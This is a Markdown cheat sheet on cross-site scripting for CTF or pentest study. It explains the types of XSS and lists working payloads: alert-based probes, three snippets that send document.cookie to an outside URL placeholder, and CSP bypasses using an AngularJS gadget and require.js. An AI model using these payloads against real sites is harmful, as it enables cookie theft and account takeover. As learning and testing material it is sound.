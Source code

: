 # 💬 XSS

Cross Site Scripting (XSS) is a type of attack in which malicious scripts are injected in a website and executed on the client browser.

Common payloads to check for XSS are:

```xml
<script>alert('hello');</script>

<img src="javascript:alert('hello')">

<iframe src="javascript:alert(`xss`)"></iframe>

<svg onload="alert('xss')">

<img onerror="alert('hello')">
```

Possible goals of a XSS:

- Steal the user cookie
- Log user activities on the website
- Change client code execution
- Make some actions from the admin account

## Types of XSS

There are three main types of XSS:

- reflected
- stored
- DOM-based

### Reflected

In reflected XSS the data inserted by the user is included in the webpage source without any validation.

Common point of attacks are query or path params.

```
http://website.com/profile?greetings=<script>alert('Hi!')</script>
```

### Stored

In stored XSS the payload is stored on the server and it is executed when other users visit the page.

It was very common in the past inside public forum or blogs. The payload can be stored inside a comment or a post.

Other examples are user profile information or contact forms.

Do you know someone called `<script>alert('Hi!')</script>`?

When there is no way to test your payload, this type of vulnerability becomes a blind XSS.

For example, you could be able to exploit a XSS by writing something to the admin without seeing the result of it.

### DOM-based

In DOM-based XSS the execution happens in the browser without any refreshes or updates.

Common examples are input form or special page actions.

## Send requests in Javascript

XSS challenges usually require to do a request with a secret value.
These snippets below are possible ways to do it.

```js
// this is a redirection, but it could be used too
document.location = '<url>?cookie=' + document.cookie
```

```js
var request = new XMLHttpRequest()
request.open('GET', '<url>?cookie=' + document.cookie)
request.send(null)
```

```js
fetch('<url>?cookie=' + document.cookie)
```

## CSP bypasses

### JSONP endpoints

This technique is based on special JSONP endpoints that allows unsafe execution of malicious scripts.

Look [here](https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt) for a list of the most common endpoints.

:::caution
If there are any CSP sources set, you should pay attention on which endpoint you are using.
:::

```html
<script src=//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js></script>
<div ng-app ng-csp>{{$eval.constructor('alert(1)')()}}</div>
```

### require.js

If the website uses require.js, it is possible to load additional code that will be automatically injected.
This means that the code will be loaded together with require.js and so it will avoid any nonce or other CSP.

```js
<script data-main="data:1,alert(1)" src="require.js"></script>
```

